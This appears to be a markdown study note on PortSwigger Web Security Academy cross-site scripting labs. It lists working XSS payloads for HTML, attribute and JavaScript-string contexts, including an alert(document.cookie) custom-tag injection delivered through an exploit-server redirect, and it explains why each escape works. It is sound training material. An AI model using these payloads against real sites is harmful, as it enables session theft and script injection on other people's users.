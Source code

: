 
# XSS Context labs

- [Between HTML Tags](https://portswigger.net/web-security/cross-site-scripting/contexts#xss-between-html-tags)
- [In HTML tag attributes](https://portswigger.net/web-security/cross-site-scripting/contexts#xss-in-html-tag-attributes)
- [In JavaScript](https://portswigger.net/web-security/cross-site-scripting/contexts#xss-into-javascript)

</br>

## Reflected XSS into HTML context with most tags and attributes blocked
`search=<>`

```HTML
 <section class=blog-header>
    <h1>0 search results for '<>'</h1>
    <hr>
  </section>
```
</br>

## Reflected XSS into HTML context with all tags blocked except custom ones
https://github.com/LinuxUser255/Web-Security-Academy-Series

**Request**
```http
GET /?search=document
```

**Response**
```HTML
<h1>1 search results for 'document'</h1>

```

```html

<xss id=x onfocus=alert(document.cookie) tabindex=1>#x';
```

```
This injection creates a custom tag with the ID x,
which contains an onfocus event handler that triggers
the alert function.
The hash at the end of the URL focuses on this element as
soon as the page is loaded, causing the alert payload to
be called.

```
**Payload to be appended to your lab url and stored in the exploit server**

```js
<xss id=x onfocus=alert(document.cookie) tabindex=1>#x';
```
```html
<script>
location = 'https://labid.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```

</br>

## XSS in HTML tag attributes

When the XSS context is into an HTML tag attribute value, you might sometimes be able to terminate the attribute value, close the tag, and introduce a new one. For example:

`"><script>alert(document.domain)</script>`

More commonly in this situation, angle brackets are blocked or encoded, so your input cannot break out of the tag in which it appears. Provided you can terminate the attribute value, you can normally introduce a new attribute that creates a scriptable context, such as an event handler. For example:

`" autofocus onfocus=alert(document.domain) x="`

The above payload creates an `onfocus` event that will execute JavaScript when the element receives the focus, and also adds the `autofocus` attribute to try to trigger the `onfocus` event automatically without any user interaction. Finally, it adds `x="` to gracefully repair the following markup.

</br>

## Reflected XSS into attribute with angle brackets HTML-encoded

```HTTP
GET /?search="onmouseover="alert(1)
```

```HTML
 <form action=/ method=GET>
 <input type=text placeholder='Search the blog...' name=search value=""onmouseover="alert(1)">
<button type=submit class=button>Search</button>
```

### [Stored XSS into anchor `href` attribute with double quotes HTML-encoded](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-href-attribute-double-quotes-html-encoded)


Sometimes the XSS context is into a type of HTML tag attribute that itself can create a scriptable context. Here, you can execute JavaScript without needing to terminate the attribute value. For example, if the XSS context is into the `href` attribute of an anchor tag, you can use the `javascript` pseudo-protocol to execute script. For example:

`<a href="javascript:alert(document.domain)">`


```HTML
  <p>
   <img src="/resources/images/avatarDefault.svg" class="avatar">                  <a id="author" href="javascript:alert(1)">HACKERMAN
   </a>
</p>
```

1. Repeat the process again but this time replace your input with the following payload to inject a JavaScript URL that calls alert:

    `javascript:alert(1)`


</br>


## XSS into JavaScript

When the XSS context is some existing JavaScript within the response, a wide variety of situations can arise, with different techniques necessary to perform a successful exploit.

### Terminating the existing script

In the simplest case, it is possible to simply close the script tag that is enclosing the existing JavaScript, and introduce some new HTML tags that will trigger execution of JavaScript. For example, if the XSS context is as follows:

```JS
<script>
   ....
	var input = 'controllable data here';
	...
</script>
```

then you can use the following payload to break out of the existing JavaScript and execute your own:

```JS
</script><img src=1 onerror=alert(document.domain)>
```

The reason this works is that the browser first performs HTML parsing to identify the page elements including blocks of script, and only later performs JavaScript parsing to understand and execute the embedded scripts. The above payload leaves the original script broken, with an unterminated string literal. But that doesn't prevent the subsequent script being parsed and executed in the normal way.

</br>

## Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded & single quotes escaped

Some applications attempt to prevent input from breaking out of the JavaScript
string by escaping any single quote characters with a backslash.

**A backslash before a character tells the JavaScript parser that
the character should be interpreted literally**,

and not as a special character such as a string
terminator. In this situation, applications often make the mistake of failing to
escape the backslash character itself. This means that an attacker can use their
own backslash character to neutralize the backslash that is added by the
application.

For example, suppose that the input:

`';alert(document.domain)//`

gets converted to:

`\';alert(document.domain)//`

You can now use the alternative payload:

`\';alert(document.domain)//`

which gets converted to:

`\\';alert(document.domain)//`

Here, the first backslash means that the second backslash is interpreted literally, and not as a special character. 
This means that the quote is now interpreted as a string terminator, and so the attack succeeds.   
